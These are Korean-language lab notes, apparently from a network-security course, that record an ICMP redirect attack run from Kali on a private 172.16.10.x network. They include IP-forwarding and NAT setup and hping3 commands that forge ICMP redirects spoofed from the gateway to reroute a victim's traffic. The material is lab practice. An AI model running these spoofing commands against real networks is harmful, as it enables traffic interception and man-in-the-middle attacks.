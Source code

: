 와이어샤크 필터 icmp 로 보면 실제 정상적이 redirect 메세지를 보내게 된다. 

![image-20200929141413796](C:\Users\user1\AppData\Roaming\Typora\typora-user-images\image-20200929141413796.png)





###### 칼리



root@kali-04:~# vim /etc/sysctl.conf

```
net.ipv4.ip_forward=0 // 0 으로 다시 바꿔주기
```

root@kali-04:~# sysctl -p
net.ipv4.ip_forward = 0

root@kali-04:~# hping3 -1 -C 5 -K 1 --icmp-gw 172.16.10.30 --icmp-ipsrc 172.16.10.10 --icmp-ipdst 168.126.63.1 -a 172.16.10.254 172.16.10.10





- 다른거 NAT

  root@kali-04:~# iptables -t nat -A POSTROUTING -s 172.16.10.0/24 -o eth0 -j MASQUERADE
  root@kali-04:~# iptables -t nat -L

  ```
  Chain PREROUTING (policy ACCEPT)
  target     prot opt source               destination         
  
  Chain INPUT (policy ACCEPT)
  target     prot opt source               destination         
  
  Chain POSTROUTING (policy ACCEPT)
  target     prot opt source               destination         
  MASQUERADE  all  --  172.16.10.0/24       anywhere            
  
  Chain OUTPUT (policy ACCEPT)
  target     prot opt source               destination
  ```

   root@kali-04:~# vim /etc/sysctl.conf

```
net.ipv4.ip_forward=1 // 1 으로 다시 바꿔주기
```

root@kali-04:~# sysctl -p
net.ipv4.ip_forward = 1

root@kali-04:~# hping3 -1 -C 5 -K 1 --icmp-gw 172.16.10.30 --icmp-ipsrc 172.16.10.10 --icmp-ipdst www.google.co.kr -a 172.16.10.254 172.16.10.10

```
HPING 172.16.10.10 (eth0 172.16.10.10): icmp mode set, 28 headers + 0 data bytes
```
